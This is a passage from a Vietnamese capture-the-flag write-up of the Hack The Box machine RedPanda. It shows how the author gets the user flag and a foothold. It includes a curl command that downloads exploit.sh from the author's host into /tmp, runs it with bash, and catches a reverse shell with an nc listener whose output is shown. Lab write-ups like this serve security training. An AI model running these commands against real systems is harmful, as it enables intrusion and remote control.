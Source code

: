 Tôi cũng không thể nào gọi được shell về, đành phải ngồi gõ lệnh thủ công rồi chuyển nó thành java để tìm hiểu bên trong này không.

## User flag 

Với cách trên thì tôi cũng đã có thể lấy *user flag* thành công vì hiện tại tôi đang ở truy cập với user *woodenk* và *user flag* nằm trong thư mục user này.

![user-flag](/assets/img/2022-10-24-HTB-RedPanda/5.webp)

Chuyển đổi câu lệnh `cat /home/woodenk/user.txt` thành code java và thử lại, tôi sẽ có *user flag*.

Sau 1 lúc cosplay chú bé đần thì tôi mới nhận ra là tôi đang không ở thư mục mà tôi có thể thực thi được shell vì không có quyền. Và để cho chắc chắn thì tôi sẽ nhét lại shell vào /tmp/ và chạy nó với bash. Chuyển command bên dưới thành code java:

`curl 10.10.14.4:8000/exploit.sh --output /tmp/exploit.sh`

Cuối cùng là `bash /tmp/exploit.sh`

*Note: tất cả command đều chuyển thành code java*

```python
┌──(neo㉿kali)-[~]
└─$ nc -lnvp 2402 
listening on [any] 2402 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.170] 39958
bash: cannot set terminal process group (877): Inappropriate ioctl for device
bash: no job control in this shell
woodenk@redpanda:/tmp/hsperfdata_woodenk$ id
id
uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)
woodenk@redpanda:/tmp/hsperfdata_woodenk$ 
```
